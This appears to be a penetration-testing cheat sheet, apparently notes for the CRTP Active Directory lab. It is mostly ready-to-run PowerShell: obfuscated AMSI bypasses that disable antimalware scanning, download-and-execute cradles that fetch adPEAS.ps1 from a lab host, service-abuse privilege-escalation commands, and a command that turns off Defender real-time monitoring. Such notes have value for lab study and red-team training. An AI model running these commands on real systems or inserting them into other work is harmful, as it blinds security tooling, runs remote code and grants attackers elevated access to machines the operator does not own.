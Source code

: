 #### AMSI Bypasses
1. CRTP Bypass
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

-> Run twice (the first will be detected but it will decimate AMSI so the second one would run perfectly) 
```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

2. Modern Bypass 1 (2023)
```
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

3. Modern Bypass 2 (2023)
```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

- Download-Execute Cradle
`iex (New-Object Net.WebClient).DownloadString('http://192.168.100.1/adPEAS.ps1')`

`iex(iwr'http://192.168.100.1/adPEAS.ps1')`

#### Local PrivEsc
1. Abusing service permissions
`Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose`

2. Abusing unquoted service path
`Write-ServiceBinary -Name 'AbyssWebServer' -Path 'C:\WebServer\Abyss.exe' -UserName 'dcorp\studentx' -Verbose`

3. Abusing service executable (binary) permissions
`Write-ServiceBinary -Name 'AbyssWebServer' -Path 'C:\WebServer\Abyss Web Server\abyssws.exe' -UserName 'dcorp\studentx' -Verbose`

#### Tamper with Host Defenses as an Administrator
- Disable Defender
`Set-MpPreference -DisableRealtimeMonitoring $true`
